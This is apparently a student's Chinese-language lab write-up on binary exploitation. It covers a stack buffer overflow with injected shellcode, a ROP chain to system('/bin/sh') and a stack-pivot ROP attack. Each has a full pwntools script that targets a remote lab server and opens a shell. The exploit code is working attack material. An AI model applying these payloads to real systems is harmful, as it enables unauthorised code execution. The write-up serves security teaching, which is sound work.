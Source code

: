 # 栈上缓冲区溢出

​	程序中构造了payload并传输给原程序，使用100个'A'填充了原程序中的buffer数组，8个'b'覆盖了原rbp，然后填入篡改后的return address以及shellcode。

​	通过计算可得shellcode在系统栈中的地址为id_addr+0x100+0x10 (0x100为buffer数组，0x10为rbp和return address)，因此将return_address篡改为计算出的shellcode地址，使程序通过跳出函数时执行shellcode，完成攻击。

```python
from pwn import *

context.log_level = 'DEBUG'

p = remote('8.154.20.109', 10100)  
p.recvuntil(b'StudentID:\n')
p.sendline(b'----------')//学号
p.recvuntil(b'address: ')
id_addr = int(p.recvuntil('\n'), 16)
print('[*] id_addr = ' + hex(id_addr)) 
rt_addr=id_addr+0x100+0x10


shellcode = b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'
payload =b"A"*0x100 + b"B"*8 + p64(rt_addr) + shellcode
p.sendline(payload)
p.interactive()
```

![flag1](spof/flag.jpg)







# ROP

## Rop2

​	原程序提供了system函数，但是执行的是"/bin/ls"，同时原程序也提供了"/bin/sh"字段，可以通过截获system函数和"/bin/sh"的地址，构造ROP链进行攻击。

​	首先需要0x58个字节进行填充（0x4填充len，0x40填充buffer，0xC补全至16的倍数，0x8覆盖原rbp），然后填入rdi=gstr_addr（指向"/bin/sh"）的指令，用于传输system函数的参数。由于system函数执行时要求16字节对齐，因此需填入一个直接跳转指令，即ret指令。最后填入system函数的地址，完成攻击。

```python
from pwn import *

context.log_level = 'DEBUG' # set debug logging
context.arch = 'amd64'

p = remote('8.154.20.109',10101)
binary = ELF("./rop2")
rop = ROP(binary)

system_addr = binary.symbols['system']
gstr_addr = binary.symbols['gstr']

payload = b"A"*0x58
rop(rdi = gstr_addr)   # gadgets that will make rdi to expected value
rop.raw(rop.find_gadget(['ret'])[0])
rop.raw(system_addr)       # gadgets that will return to target function
payload += rop.chain()
payload = payload + b"B" * (128 - len(payload)) # padding

p.recvuntil(b"ID:\n")
p.sendline(b'----------')//学号
p.recvuntil(b"[*] Please input the length of data:\n")
p.sendline(b"128")
p.recvuntil(b"[*] Please input the data:\n")
p.send(payload)

p.interactive()
```

![flag2](rop2/flag.jpg)



## Rop3

​	原程序中限制了buffer数组的长度，无法通过简单的rop进行攻击。注意到原程序中还有一个gbuffer可使用，因此需要在buffer溢出时实现栈迁移，将rbp，rsp迁移到gbuffer中，在gbuffer中继续构造rop链，实现攻击。

![Inst](rop3/Inst.jpg)

​	首先使用ROPgadget获取leave_ret，pot_ret，ret指令的地址。利用得到的地址开始构造ROP链。	

​	程序中构造了两个payload，分别用于填充gbuffer和buffer。其中payload2用于填充buffer，由0x40个填充字节，指向gbuffer的假rbp以及leave_ret指令组成；payload1用于填充gbuffer，由"/bin/sh"字段，pop_rdi指令，gbuffer地址（由于gbuffer的最小地址处被填充为"/bin/sh"，该地址指向"/bin/sh"参数），ret指令以及system函数地址组成。

​	在程序运行时，首先在func函数运行结束时，系统将会执行leave_ret指令，此时rbp的值被修改为gbuffer的地址，由于此时的ret_address被改为了leave_ret指令地址，程序将再次执行leave_ret指令，将rsp的值修改为gbuffer的地址，完成栈迁移。在gbuffer栈中先运行pop_ret指令，将"\bin\sh"写入rdi，然后使用ret指令填充至16位对齐，最后执行system函数，完成攻击。

```python
from pwn import *

context.log_level = 'DEBUG' # set debug logging
context.arch = 'amd64'

p = remote('8.154.20.109',10102)
binary = ELF("./rop3")
rop = ROP(binary)

gbuffer_addr=binary.symbols['gbuffer']
leave_addr=0x400700
popret_addr=0x400823
ret_addr=0x400586

p.recvuntil(b"ID:\n")
p.sendline(b'----------')//学号
p.recvuntil("address: ")
sys_addr=p.recvline().decode().strip()

payload1=b"/bin/sh\x00"
payload1+=p64(popret_addr)
payload1+=p64(gbuffer_addr)
payload1+=p64(ret_addr)
payload1+=p64(int(sys_addr,16))

p.send(payload1)

p.recvuntil("> ")
payload2=b"A"*0x40+p64(gbuffer_addr)+p64(leave_addr)
p.sendline(payload2)

p.interactive()
```

![flag3](rop3/flag.jpg)
